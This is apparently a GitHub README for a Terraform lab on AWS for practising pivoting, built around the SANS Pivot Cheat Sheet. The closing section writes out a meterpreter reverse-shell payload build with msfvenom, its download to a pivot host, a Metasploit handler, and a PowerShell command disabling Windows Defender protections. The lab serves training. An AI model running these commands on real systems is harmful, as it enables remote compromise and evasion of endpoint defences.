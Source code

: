# SANS Pivot Cheat Sheet Lab
This serves as a tool for cybersecurity enthusiasts to better understand pivoting through an environment. The central reference is the [SANS Pivot Cheat Sheet](https://www.sans.org/posters/pivot-cheat-sheet/). Some code used from Terraform's [HashiCorp Learn platform](https://learn.hashicorp.com/tutorials/terraform/cloud-init?in=terraform/provision).

## Dependencies
- [AWS IAM Credentials](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) to interact with an AWS account
- [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/install-cliv2.html) installed
- [Terraform](https://www.terraform.io/downloads.html) installed

## Files
- Readme.md:    This file explains the repository
- main.tf:      Overall architecture of the Terraform project
- variables.tf: Contains values used in production
- output.tf:    Defines outputs requested from the build
- scripts/:     YAML config files for instances
- assets/:      Files copied to instances

## Steps
### Create Keys and Apply to YAML Configs
- `ssh-keygen -t rsa -C "your_email@example.com" -f ../tf-cloud-init`
- Look for `ssh_authorized_keys:` in the YAML files in `scripts/`. Replace the example public keys with the contents of your new `tf-cloud-init.pub`.

### Create the Range with Terraform
```
$ terraform init
[...]
Terraform has been successfully initialized!
[...]
$ terraform fmt
$ terraform validate
Success! The configuration is valid.
$ terraform apply
[...]
Do you want to perform these actions?
  Terraform will perform the actions described above.
  Only 'yes' will be accepted to approve.

  Enter a value: yes
[...]
Apply complete! Resources: 1 added, 0 changed, 0 destroyed.
$ terraform show
```

### Optionally: Create a Windows Instance as Another Pivot
- From the AWS Console, Create Instance
- Pick a Windows AMI - maybe 2019 (ami-0428fc1ee1bde045a)
- Next, then t2micro might be OK
- Next, then VPC from the Terraform output
- Set Auto-Assign IP to Enable
- Set Primary IP addresses to 10.1.2.2
- Next
- Next, then add tags like "Project:PivotPlay" and "Name:Windows-Pivot"
- Next, then pick the sg_pivot security group
- Review, then Launch
- Create a new key and save them
- Once the new instance is up, select it in the Instances view and Connect using the key you just created

### Optional Windows Steps
- Install chocolatey package manager: `Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))`
- Install Nmap or other tools: `choco install nmap`

### Connect to the Attack Machine with the IP from the Previous Command
- `ssh attack@AttackIPHere -i ../tf-cloud-init`

### Maybe Perform some attacks!
- `attack $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=8888 -f exe -o helper.exe`
- `pivot PS> curl 10.1.1.1:8000/helper.exe -OutFile helper.exe`
- `attack $ msfconsole`
- `attack msf6> use exploit/multi/handler`
- `attack msf6> set payload windows/x64/meterpreter/reverse_tcp`
- `attack msf6> set LHOST eth0`
- `attack msf6> set LPORT 8888`
- `attack msf6> run`
- `pivot PS> Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend`
- `pivot PS> .\helper.exe`
